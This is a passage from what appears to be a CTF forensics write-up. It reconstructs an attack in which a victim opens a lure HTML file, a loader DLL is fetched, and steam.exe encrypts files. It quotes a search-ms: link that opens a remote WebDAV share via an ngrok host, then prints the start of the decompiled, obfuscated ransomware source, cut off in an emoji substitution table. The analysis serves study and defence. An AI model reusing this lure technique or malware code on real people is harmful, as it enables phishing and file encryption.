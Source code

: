 We have **2** things to note:

- `search-ms:query=Ket_Qua_Ky_Thi_THPTQG2036&crumb=location:\\5b4a29dffc4d.ngrok-free.app@SSL\DavWWWRoot\&displayname=Downloads`

-> This link opens File Explorer and searches for files matching "Ket_Qua_Ky_Thi_THPTQG2036" inside a remote WebDAV folder (mounted via ngrok), which is displayed as "Downloads"

- `https://files.sakamoto.moe/cba5703ee7fd_word.gif`

-> A screenshot from MSWord

![image]({{ site.url }}/assets/hola25/11.png)

⬇️⬇️⬇️

**Finally, we have the following flow attack: The victim was tricked into downloading a file named `diemchuan.html` (inside `diemchuan.zip`), opened it and executed something, based on the event log, we know that it downloaded and executed the dll file (`41dbe7ac7b73_loader.dll`). It created the `steam.exe` file, and that file encrypted the files in the 5 folders mentioned above.**

So... Let's end this challenge -> Reverse `steam.exe`

```
// minecraft, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// Maicraft.cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Globalization;
using System.IO;
using System.Linq;
using System.Net.Http;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using System.Threading.Tasks;
using minecraft;

internal class cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk
{
    private static Dictionary<string, string> pdZuVvKNPFSscmrJcOBSJjLEW = new Dictionary<string, string>
    {
        { "0", "\ud83c\udf7a" },
        { "1", "\ud83d\ude82" },
        { "2", "\ud83d\udc0f" },
        { "3", "⚽" },
        { "4", "\ud83c\ude3a" },
        { "5", "⛵" },
        { "6", "\ud83d\udd3c" },
        { "7", "\ud83c\udf4d" },
        { "8", "\ud83c\udfa5" },
        { "9", "\ud83d\udebe" },
        { "A", "\ud83d\udc3d" },
        { "B", "\ud83c\udf0a" },
        { "C", "\ud83d\udcac" },
        { "D", "\ud83c\udfad" },
        { "E", "\ud83c\udf06" },
        { "F", "\ud83d\udd0e" },
        { "G", "\ud83d\udc7b" },
        { "H", "\ud83c\ude51" },
        { "I", "\ud83d\udc9b" },
        { "J", "\ud83c\udd7f\ufe0f" },
        { "K", "\ud83c\uddea\ud83c\uddf8" },
        { "L", "\ud83d\udc9c" },
        { "M", "\ud83d\udc36" },
```